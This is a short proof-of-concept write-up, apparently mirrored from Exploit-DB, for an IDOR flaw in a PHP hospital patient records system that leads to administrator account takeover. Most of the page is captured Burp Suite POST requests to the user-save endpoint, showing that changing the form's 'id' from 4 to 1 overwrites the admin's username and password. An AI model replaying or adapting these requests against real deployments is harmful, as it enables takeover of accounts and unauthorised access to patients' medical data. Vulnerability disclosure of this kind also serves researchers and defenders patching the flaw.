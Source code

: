 ```yaml
---
title: "Hospitals Patient Records Management System 1.0 - Account TakeOver"
classes: wide
search: true
categories: 
  - Exploit-DB
tags:
  - Exploit-DB
last_modified_at: 2021-12-30T15:58:26+08:00
toc: true
toc_label: "Contents"
---
```


Information about vulnerability
```bash
- Exploit Title: Hospital's Patient Records Management System v1.0 - 'id' Insecure direct object references (IDOR) leads to Account TakeOver
- Date: 2021-12-30
- Exploit Author: twseptian
- Vendor Homepage: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html
- Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hprms_0.zip
- Version: v1.0
- Tested on: Kali Linux 2021.4
- Exploit-DB link: https://www.exploit-db.com/exploits/50631
```

## Insecure direct object references (IDOR)
Insecure Direct Object References (IDOR) occur when an application provides direct access to objects based on user-supplied input.Insecure Direct Object References allow attackers to bypass authorization and access resources directly by modifying the value of a parameter used to directly point to an object. Such resources can be database entries belonging to other users, files in the system.

## Attack Vector
An attacker can takeover the Administrator's account

## Steps of reproduce
Note: in this case, we used two users, user1 as a staff with user id '4', and admin as an Administrator with user id '1'.
- Step-1: Log in to the application using user1 account,then on the dashboard navigate to 'My Account' `http://localhost/hprms/admin/?page=user`
- Step-2: Modify the username,lastname and password,then let's intercept the request using burpsuite:

```bash
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

4
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```

- Step-3: Change parameter id '4' to id '1'

```bash
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```

- step-4: Click 'Forward' on burpsuite. Now user1 is a Administrator.